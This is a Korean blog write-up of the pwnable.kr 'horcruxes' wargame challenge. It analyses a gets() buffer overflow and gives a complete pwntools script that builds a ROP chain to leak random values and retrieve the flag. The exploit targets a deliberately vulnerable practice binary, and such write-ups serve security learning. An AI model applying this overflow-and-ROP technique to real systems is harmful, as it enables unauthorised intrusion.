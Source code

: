 ```yaml
---
layout: post
title: "[pwnable.kr] horcruxes 풀이"
date: 2018-09-04 19:01
categories: "[Pwn]pwnable.kr"
tags: "#UnKN0wn"
---
```

>## horcruxes - [7pt]
### Voldemort concealed his splitted soul inside 7 horcruxes.
### Find all horcruxes, and ROP it!
### author: jiwon choi<br><br>
### ssh horcruxes@pwnable.kr -p2222 (pw:guest)

---

ROP를 사용하는 문제라네요

ssh로 연결해보면 `horcruxes`와 `readme`라는 파일이 있어요.

`horcruxes`를 IDA를 이용해 분석하기위해 scp 명령어를 사용했어요

> $ scp -P 2222 horcruxes@pwnable.kr:/home/horcruxes/horcruxes ~/

# 1. 프로그램 분석

{: refdef: style="text-align: center;"}
![init_ABCDEFG](/pic/pwnable_kr/horcruxes/hor_init_ABCDEFG.png)
{: refdef}

<center> *init_ABCDEFG 함수* </center>

전역변수 a,b,c,d,e,f,g의 값을 랜덤으로 정해주고 모든 합을 sum에 저장하는 함수인거 같네요

{: refdef: style="text-align: center;"}
![ropme](/pic/pwnable_kr/horcruxes/hor_ropme.png)
{: refdef}

<center> *ropme 함수* </center>

각 A,B,C,D,E,F,G 함수는 각각의 변수들의 값을 출력해주는 함수가 있어요

이리고 이 모든 변수값을 더한 sum 값과 gets로 입력한 값이 같으면 flag를 출력해주는 함수네요

그런데 이 각각의 함수에서 변수 값을 출력하기위해서는

계속 랜덤값으로 바뀌는 각각의 변수 값을 알아야하는데

불가능해요

그런데 `gets(s)` 부분에서 BOF가 일어나서 return 주소를 바꿔줄 수 있어요

이 부분을 이용해 exploit 코드를 짜봅시다

# 2. Exploit

```python
from pwn import *
#context.log_level='debug'

#connect ssh
s = ssh("horcruxes", "pwnable.kr", port=2222, password="guest")
#connect nc
n = s.remote("localhost", 9032)

#function address
func_A = 0x0809FE4B
func_B = 0x0809FE6A
func_C = 0x0809FE89
func_D = 0x0809FEA8
func_E = 0x0809FEC7
func_F = 0x0809FEE6
func_G = 0x0809FF05
ROPME = 0x0809FFFC

n.recvuntil('Menu:')
n.sendline('0')
n.recvuntil('earned? : ')

#ROP
payload = ""
payload += "A"*120      #buffer + sfp
payload += p32(func_A)  #return
payload += p32(func_B)
payload += p32(func_C)
payload += p32(func_D)
payload += p32(func_E)
payload += p32(func_F)
payload += p32(func_G)
payload += p32(ROPME)

n.sendline(payload)
total = 0

#calculate EXP
for i in range(0,7):
    n.recvuntil('EXP +')
    total += int(n.recvuntil(')')[:-1])
    log.info('total = ' + str(total))

#return to function 'ROPME'
n.recvuntil("Menu:")
n.sendline("0")
n.recvuntil("earned? : ")
n.sendline(str(total))

log.info("flag is : " + n.recv())
```

이런식으로 exploit 코드를 짜니 flag가 나오긴 했어요

그런데 한번씩 flag가 안나올 때가 있는데 아마 EXP값이

음수가 나올 경우가 있기 때문인거 같네요 

![exploit](/pic/pwnable_kr/horcruxes/hor_ex.png)

